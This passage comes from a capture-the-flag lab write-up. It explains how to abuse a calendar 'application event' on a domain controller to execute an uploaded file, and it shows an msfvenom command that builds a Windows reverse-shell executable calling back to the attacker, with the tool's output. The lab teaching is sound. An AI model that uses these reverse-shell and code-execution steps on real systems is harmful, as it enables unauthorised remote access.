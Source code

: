 If you remember from the messages earlier as well, o.martinez was complaining about pop-ups every day at 9am. We can now see the culprit. Apparently a little practical joke by a.walker.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Combining all these clues, it's clear we have some control over executing some kind of processes on o.martinez's computer (dc01). We should certainly explore this. Real quick, you should notice that they mention 9am every morning, but the time of the alerts are off. This should prompt you to consider syncing the local time of your windows machine with the dc01. If you do not ensure that the times are matched up for the calendar triggers, they will not work. If you don't want to change the time, then just calculate the offset manually, based on the time of the dc01 (run the date command in the reverse shell). Note: The time of the alerts will still not match up with 9am. This is normal.

By adding an event to the calendar and exploring the options, we can see a very dangerous event type pop out:

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

This sounds perfect. We can upload a payload to the dc01, and then trigger it with an application event. It will need to be placed in a location mutually reachable by both users, and writable by the one we own. After some testing, you will find that winrm\_svc is a good choice for this. You can also use evil-winrm to gain access to dc01 without a kerberos ticket by using this user, which is easier.

We generate a quick and dirty payload with msfvenom:

```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe > get_me.exe 
Warning: KRB5CCNAME environment variable not supported - unsetting
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```
